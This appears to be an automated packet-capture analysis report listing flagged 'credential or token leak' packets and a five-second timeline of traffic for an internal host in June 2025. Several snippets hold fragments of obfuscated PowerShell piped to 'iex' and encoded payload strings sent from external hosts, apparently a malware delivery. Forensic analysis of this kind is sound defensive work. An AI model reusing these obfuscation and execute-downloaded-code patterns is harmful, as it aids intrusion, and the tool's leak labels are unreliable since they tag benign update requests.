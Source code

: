 ## Credential or Token Leaks

- {'packet_index': 10, 'src_ip': '10.6.13.133', 'dst_ip': '217.20.51.22', 'snippet': 'get /msdownload/update/v3/static/trustedr/en/authrootstl.cab?14a7b69d3530a12d http/1.1\r\nconnection: '}
- {'packet_index': 21, 'src_ip': '104.21.24.186', 'dst_ip': '10.6.13.133', 'snippet': "ring')(${get-service -verbose -logname system && ($dfmlnc)})) | iex; ${get-content -erroraction sile"}
- {'packet_index': 31, 'src_ip': '104.21.112.1', 'dst_ip': '10.6.13.133', 'snippet': 'http/1.1 200 ok\r\ndate: fri, 13 jun 2025 15:36:24 gmt\r\ncontent-type: text/plain;charset=utf-8\r\nconten'}
- {'packet_index': 33, 'src_ip': '104.21.112.1', 'dst_ip': '10.6.13.133', 'snippet': 'dojpdb25jyxqojetnuhp3akx3tjl3sywgjchby2hhcl0onzeqotivnzepk1tjagfyxsgxmtuqmteylz";${remove-item -verb'}
- {'packet_index': 36, 'src_ip': '104.21.112.1', 'dst_ip': '10.6.13.133', 'snippet': '14gh && ($kigcoa)} = "snmccrj2inkyd5jysnqicrj04nkydljysnaycrjzknkydqjysnvccrj0qnkydzjysnzycrj1onkycw'}

## Timeline of Threat Activity

- {'time': '2025-06-13 21:03:55', 'packet_count': 29, 'protocols': {'UDP': 14, 'TCP': 15}, 'unique_sources': ['10.6.13.133', '173.222.52.33', '52.156.123.84', '10.6.13.3'], 'unique_destinations': ['224.0.0.252', '10.6.13.255', '52.156.123.84', '173.222.52.33', '239.255.255.250', '10.6.13.133', '10.6.13.3', '255.255.255.255']}
- {'time': '2025-06-13 21:04:00', 'packet_count': 10, 'protocols': {'UDP': 6, 'TCP': 4}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['104.208.203.90', '10.6.13.255', '239.255.255.250']}
- {'time': '2025-06-13 21:04:05', 'packet_count': 45, 'protocols': {'UDP': 5, 'TCP': 40}, 'unique_sources': ['10.6.13.3', '10.6.13.133'], 'unique_destinations': ['10.6.13.3', '239.255.255.250', '10.6.13.133']}
- {'time': '2025-06-13 21:04:10', 'packet_count': 32, 'protocols': {'TCP': 20, 'UDP': 12}, 'unique_sources': ['204.79.197.203', '20.190.135.6', '10.6.13.3', '10.6.13.133', '23.198.7.186'], 'unique_destinations': ['204.79.197.203', '13.107.42.16', '104.208.203.90', '20.190.135.6', '10.6.13.3', '10.6.13.133', '23.198.7.186']}
- {'time': '2025-06-13 21:04:15', 'packet_count': 57, 'protocols': {'UDP': 2, 'TCP': 55}, 'unique_sources': ['13.107.42.16', '23.212.185.76', '10.6.13.133'], 'unique_destinations': ['13.107.42.16', '10.6.13.133', '10.6.13.3', '23.212.185.76', '23.198.7.186']}
- {'time': '2025-06-13 21:04:20', 'packet_count': 3, 'protocols': {'TCP': 3}, 'unique_sources': ['10.6.13.3', '10.6.13.133'], 'unique_destinations': ['10.6.13.133', '10.6.13.3']}
- {'time': '2025-06-13 21:04:25', 'packet_count': 5, 'protocols': {'TCP': 2, 'UDP': 3}, 'unique_sources': ['10.6.13.133', '150.171.28.11', '23.198.7.180'], 'unique_destinations': ['224.0.0.251', '10.6.13.133']}
- {'time': '2025-06-13 21:04:35', 'packet_count': 21, 'protocols': {'TCP': 21}, 'unique_sources': ['173.194.208.155', '142.250.113.95', '142.250.115.99', '10.6.13.133'], 'unique_destinations': ['142.251.186.138', '142.250.115.99', '10.6.13.133']}
- {'time': '2025-06-13 21:04:40', 'packet_count': 8, 'protocols': {'TCP': 8}, 'unique_sources': ['142.250.115.99', '10.6.13.133'], 'unique_destinations': ['205.174.24.80', '142.250.115.99', '10.6.13.133']}
- {'time': '2025-06-13 21:04:45', 'packet_count': 33, 'protocols': {'TCP': 32, 'UDP': 1}, 'unique_sources': ['142.250.138.97', '10.6.13.133', '173.194.208.94', '150.171.27.11', '205.174.24.80'], 'unique_destinations': ['142.250.138.97', '142.250.115.106', '10.6.13.3', '10.6.13.133', '13.107.246.57', '109.61.92.48', '173.194.208.94', '150.171.27.11', '205.174.24.80']}
- {'time': '2025-06-13 21:05:00', 'packet_count': 2, 'protocols': {'TCP': 2}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['204.79.197.222']}
- {'time': '2025-06-13 21:05:10', 'packet_count': 1, 'protocols': {'UDP': 1}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['10.6.13.3']}
- {'time': '2025-06-13 21:05:20', 'packet_count': 9, 'protocols': {'UDP': 9}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['239.255.255.250']}
- {'time': '2025-06-13 21:05:25', 'packet_count': 4, 'protocols': {'UDP': 4}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['239.255.255.250']}
- {'time': '2025-06-13 21:05:30', 'packet_count': 1, 'protocols': {'UDP': 1}, 'unique_sources': ['23.198.7.186'], 'unique_destinations': ['10.6.13.133']}
- {'time': '2025-06-13 21:06:20', 'packet_count': 1, 'protocols': {'TCP': 1}, 'unique_sources': ['10.6.13.133'], 'unique_destinations': ['104.21.112.1']}
- {'time': '2025-06-13 21:06:30', 'packet_count': 3, 'protocols': {'TCP': 3}, 'unique_sources': ['83.137.149.15'], 'unique_destinations': ['10.6.13.133']}
- {'time': '2025-06-13 21:06:35', 'packet_count': 3, 'protocols': {'TCP': 3}, 'unique_sources': ['83.137.149.15'], 'unique_destinations': ['10.6.13.133']}